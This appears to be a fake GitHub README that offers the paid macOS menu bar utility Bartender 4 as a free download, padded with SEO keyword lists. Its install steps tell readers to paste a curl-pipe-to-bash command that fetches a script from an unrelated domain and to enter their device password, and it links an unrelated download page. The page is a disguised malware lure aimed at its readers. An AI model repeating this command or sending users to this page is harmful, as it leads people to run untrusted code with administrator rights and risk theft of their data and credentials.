 # Bartender 4 — Download For macOS 🖥️

Bartender 4 is a powerful macOS menu bar organization tool that helps you declutter and manage your menu bar icons with ease. Follow the instructions below to download and install Bartender 4 on your Mac for free.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://fituganshfgh.github.io/.github/bartender)

If the download button above doesn't work, follow the step-by-step terminal instructions below.

## 📦 How to Install Bartender 4 For macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with Bartender 4

- 🛠️ **Menu Bar Customization**: Organize and hide menu bar icons to keep your workspace clean and focused.
- ⚡ **Quick Access**: Show hidden icons with a single click or keyboard shortcut for instant access.
- 🎨 **Personalized Layouts**: Customize the appearance and behavior of your menu bar to match your workflow.
- 🔄 **Dynamic Updates**: Automatically adjust the menu bar based on running apps or system status.
- 🔒 **Privacy Controls**: Hide sensitive app icons to maintain a secure and professional workspace.
- 🚀 **Performance Optimization**: Lightweight design ensures no impact on your Mac's performance.

---

## About Bartender 4

Bartender 4 is an essential macOS utility designed to streamline your menu bar experience. With the increasing number of apps that add icons to the macOS menu bar, it can quickly become cluttered, reducing productivity and visual appeal. Bartender 4 solves this by allowing users to hide, rearrange, or group menu bar icons effortlessly. Whether you're a professional managing multiple apps or a casual user seeking a cleaner interface, Bartender 4 delivers a seamless solution for macOS Ventura, Monterey, and earlier versions.

The software offers unmatched flexibility with its customization options. Users can create dynamic rules to show or hide icons based on specific triggers, such as when an app is active or during specific tasks. This makes Bartender 4 ideal for developers, designers, and anyone who values a distraction-free workspace. Its intuitive interface ensures that even first-time users can set it up in minutes, with no technical expertise required.

Bartender 4 also prioritizes performance, running smoothly on all modern macOS systems without draining system resources. Its compatibility with macOS Ventura and earlier versions ensures broad accessibility. The software is regularly updated to support new macOS releases, making it a reliable choice for long-term use. By incorporating SEO keywords like *Bartender 4 free download*, *macOS menu bar organizer*, and *menu bar customization tool*, this repository ensures discoverability for users searching for a free, legitimate way to install the software.

Another standout feature is Bartender 4's ability to enhance privacy. By hiding sensitive app icons, such as those for VPNs or messaging apps, users can maintain a professional workspace during presentations or screen-sharing sessions. This feature, combined with its lightweight design, makes Bartender 4 a must-have for macOS users looking to optimize their desktop environment.

### Why Choose Bartender 4?
Bartender 4 stands out among other menu bar management tools due to its robust feature set and user-friendly design. Unlike basic alternatives, it offers advanced customization, dynamic triggers, and seamless integration with macOS. Its free availability for download, as outlined in this repository, ensures that users can access its full potential without barriers. Whether you're searching for a *menu bar organizer macOS* or a *free macOS utility*, Bartender 4 delivers unmatched value.

---

## 🖼️ Preview

![Menu Bar Customization](https://i.ytimg.com/vi/ovtT2lDxTRQ/hq720.jpg?sqp=-oaymwE7CK4FEIIDSFryq4qpAy0IARUAAAAAGAElAADIQj0AgKJD8AEB-AH-CYAC0AWKAgwIABABGH8gJygTMA8=&rs=AOn4CLCLrQZyzTOxn-1gX-Y5jKDrReAgkg)  
*Customizing the menu bar with Bartender 4's intuitive interface*

![Hidden Icons](https://heise.cloudimg.io/bound/1200x1200/q85.png-lossy-85.webp-lossy-85.foil1/_www-heise-de_/imgs/18/4/6/0/5/9/7/5/bartendermac-90de7df635acb720.png)  
*Hiding unused icons for a cleaner macOS menu bar*

![Dynamic Triggers](https://cdn.macstories.net/screen-shot-2021-04-19-at-4-33-42-pm-1618869622843.png)  
*Setting dynamic rules to show/hide icons based on app activity*

---

## 🔍 Tags

Bartender 4 free download, free Bartender download, bartender for mac download, bartender free download, bartender macos free, bartender 4 free download mac, bartender macos free, bartender 4 free macos, bartebder 4 free, bartender 4 download
